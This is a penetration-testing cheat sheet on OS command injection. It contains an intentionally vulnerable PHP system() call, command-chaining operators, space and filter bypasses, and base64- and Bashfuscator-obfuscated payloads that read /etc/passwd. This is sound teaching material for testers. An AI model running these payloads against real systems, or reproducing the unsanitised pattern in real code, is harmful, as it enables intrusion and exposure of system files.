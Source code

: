 ```yaml
---
description: Execute system commands on the back-end server
---
```


# Command Injections

There are serveral type of injections foundin web apps. The most common are:

| Injection            | Description                                               |
| -------------------- | --------------------------------------------------------- |
| OS Command Injection | User input is used as part of an OS command.              |
| Code Injection       | User input is used within a function that evaluates code. |
| SQL Injection        | User input is used as part of an SQL query.               |
| XSS/HTML Injection   | User input is displayed on a web page.                    |

### <mark style="color:yellow;">OS Command Injections</mark>

With OS command injections the user input must go into a web query that is executing system commands. Therefore look for function in programming languages that execute system commands.

#### PHP

web application written in `PHP` may use the `exec`, `system`, `shell_exec`, `passthru`, or `pope` .&#x20;

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

Here touch is executed but without sanitation making it vulernable.

### Detection

Finding out wether input is vulnerable for command injection

|            |        |             |                                            |
| ---------- | ------ | ----------- | ------------------------------------------ |
| Semicolon  | `;`    | `%3b`       | Both                                       |
| New Line   | `\n`   | `%0a`       | Both                                       |
| Background | `&`    | `%26`       | Both (second output generally shown first) |
| Pipe       | `\|`   | `%7c`       | Both (only second output is shown)         |
| AND        | `&&`   | `%26%26`    | Both (only if first succeeds)              |
| OR         | `\|\|` | `%7c%7c`    | Second (only if first fails)               |
| Sub-Shell  | ` `` ` | `%60%60`    | Both (Linux-only)                          |
| Sub-Shell  | `$()`  | `%24%28%29` | Both (Linux-only)                          |

### <mark style="color:yellow;">Bypassing Front-End validation</mark>

It can happen input is only validated on the front-end and not on the back-end. To bypass front-end validation we can url encode for example.

We can use && to chain commands

```bash
ping -c 1 127.0.0.1 && whoami
```

Or use the `OR` (`||`) operator which only executes the second command if the first command fails to execute.

#### Other operators

| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| --------------------------------------- | ------------------------------------------------- |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        |  `\r`  `%0d` `%0a` `%09`                          |

### <mark style="color:yellow;">Filter/WAF Detection</mark>

Web applications may use a WAF which has a list of blacklisted characters. Try various chars to see which are not blocked. For spaces filter:

{% hint style="info" %}
Spaces blacklisted can be bypassed various ways:

* Tabs =  %09
* IFS = ${IFS}
* Brace expansions = {ls,-la}
{% endhint %}

Other solution is to use path for `/` here.

```bash
echo ${PATH:0:1}
/
```

Or a semcolon:

```bash
echo ${LS_COLORS:10:1}
;
```

Or encode with base64

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

We can utilize for obfuscating bash commands [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).&#x20;

```bash
$ /bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

